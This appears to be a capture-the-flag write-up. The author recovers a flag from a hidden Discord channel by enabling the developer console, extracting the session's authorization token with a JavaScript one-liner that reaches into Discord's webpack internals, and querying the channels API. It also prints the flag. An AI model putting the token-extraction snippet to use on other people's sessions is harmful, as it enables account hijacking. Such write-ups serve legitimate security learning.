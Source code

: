# Discord server

Checking the normal places yield nothing. None of the channels or topics have anything. No pinned message etc.

The discord guild id is 1153388061275721738.

# Developer console

Opening Discord in a browser, or enabling the developer console can access the discord internals.

Developer console can be enabled by opening `settings.json` and adding the following key.
```json
{
    "DANGEROUS_ENABLE_DEVTOOLS_ONLY_ENABLE_IF_YOU_KNOW_WHAT_YOURE_DOING": true,
}
```

# Authorization token

Getting the authorization token can be done from the JS console.

```js
var apitoken = (webpackChunkdiscord_app.push([[''],{},e=>{m=[];for(let c in e.c)m.push(e.c[c])}]),m).find(m=>m?.exports?.default?.getToken!==void 0).exports.default.getToken()
```

# Listing the channels

After we have the authorization token, the following can be used to retrieve the channel list from the discord API. This includes the hidden channels as well. Also the channel topics are visible for those channels. 

```js
fetch("https://discordapp.com/api/v9/guilds/1153388061275721738/channels", {headers: {"Authorization": apitoken}}).then(response => response.json()).then(response => response.forEach((element) => console.log(element)))
```

![](screenshots/1.png)

The `privacy-leak` hidden channel topic contains the flag.

# Flag
`cq23{th3_int3rn3t_doesn7_4GET_c1b3f4b5ca07b09306c29238640218b8}`
